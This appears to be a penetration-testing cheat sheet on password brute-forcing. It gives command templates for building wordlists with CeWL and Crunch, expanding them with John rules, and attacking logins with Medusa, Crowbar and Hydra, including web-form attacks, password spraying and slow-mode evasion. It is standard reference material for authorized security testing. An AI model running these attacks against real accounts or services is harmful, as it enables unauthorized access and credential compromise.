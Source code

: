 # Bruteforce

## Generate wordlist

### Local

* **Seclists:** [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

### Cewl

```
cewl <url> -m <min length> -w <file>.txt       #generate from login page
cewl <url> -m <min length> -e -w <file>.txt    #harvest emails
```

### Crunch

```
crunch <min-len> <max-len> -f </path/to/charset>.lst -o <wordlist.txt>
crunch <min-len> <max-len> "<accepted chars>" -o <wordlist.txt> 
crunch <min-len> <max-len> -t <pattern> -o <wordlist.txt> -s <start string>
```

Pattern syntax:

* **@** will insert lower case characters
* **,**   will insert upper case characters
* **%**  will insert numbers
* **^**   will insert symbols

Symbols can be combined with static strings.

When specifying a charset the order MUST be lowercase chars, uppercase chars, numbers and symbols.

## Improve wordlist quality

### John

```
john --wordlist=<file>.txt --rules=Wordlist --stdout > <file>.txt
```

## Bruteforce

### Medusa

```
medusa -h <target ip> -u <target username> -P <path to wordlist> -M <mode> -m DIR:/<page>
```

### Crowbar

```
crowbar -b <protocol> -s <target ip> -u <target user> -C <path to wordlist>.txt -n <threads>
```

### Hydra

```
hydra -vV -l <user> -P <path to wordlist>.txt <protocol>://<ip> -e sn -t 8
hydra -vV -l <user> -P <path to wordlist>.txt <protocol>://<ip> -o <file>.txt
hydra -vV -L <userlist>.txt -P <path to wordlist>.txt <protocol>://<ip> -s <port>
```

#### Post form

```
hydra <ip> http-form-post "<relative form url>:<user form field>=^USER^&<password form field>=^PASS^:F=<invalid login string>" -L <file>.txt -P <file>.txt -vV -f
hydra <ip> http-form-post "<relative form url>:<user form field>=<username>&<password form field>=^PASS^:F=<invalid login string>" -l <username> -P <file>.txt -vV -f
```

Slow mode

```
hydra <ip> http-form-post "<relative form url>:<user form field>=<username>&<password form field>=^PASS^:F=<invalid login string>" -l <username> -P <file>.txt -vV -f -t 2 -W 5
```

#### Password spraying

```
hydra -l <user> -P <path to wordlist>.txt -M <hostfile>.txt <protocol> -vV -F
```

#### On SSL

```
hydra -vV -l <user> -S -P <path to wordlist>.txt <protocol>://<ip> -s <port>
```

#### Generate passwords

```
hydra -vV -l <user> -x<min>:<max>:<charset> <protocol>://<ip> -s <port>
hydra -vV -l <user> -x4:8:Aa1 -y <protocol>://<url>    #generate alphanumeric passwords
```

Charset rules (to be used with `-y` option) :

* **A** stands for A-Z
* **a** stands for a-z
* **1** stands for 0-9
* for symbols append them to the charset i.e. `a1/.` will generate passwords with alphanumeric lowercase characters plus dot and dash

#### Modules

```
hydra -h
hydra <module> -U | less
hydra <ip> <module> <additional args> -l <target user> -P <filelist>.txt -vV -f
```





